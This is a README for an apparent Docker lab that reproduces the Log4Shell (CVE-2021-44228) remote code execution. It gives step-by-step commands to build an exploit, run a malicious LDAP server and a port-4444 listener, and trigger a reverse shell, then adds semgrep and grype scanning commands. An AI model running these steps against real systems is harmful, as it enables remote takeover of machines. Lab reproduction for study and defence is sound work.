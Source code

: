 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Running the exploit

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Build project.

```
./build.sh

# Runs the following commands
#   cd containers/httpserver/
#   javac Exploit.java
#   cd ../..
#   docker-compose build
```

Run vulnerable jndi LDAP server.

```
cd containers/ldap/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_ldap -p 1389:1389 log4shell_ldap
```

Create listener on port 4444.

```
cd containers/listener
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_listener -p 4444:4444 log4shell_listener
```

Run vulnerable server.

```
cd containers/CVE/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_cve -p 9876:9876 log4shell_cve
```

Run payload to execute reverse shell connection to our listener.

```
cd containers/exploit/

# Runs the following command
#   docker run --rm -it --name log4shell_exploit log4shell_exploit
```

You will now be able to execute shell commands from your listener.

## Scanning source code using semgrep

```
semgrep --config="r/dockerfile.security.missing-user.missing-user"
semgrep --config="r/java.lang.security.audit.crypto.unencrypted-socket.unencrypted-socket"
semgrep --config="r/java.lang.security.audit.object-deserialization.object-deserialization"
```

## Scanning docker images using grype

```
grype <image>
grype <image> | grep High # Only look for high severity vulnerabilities
```

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec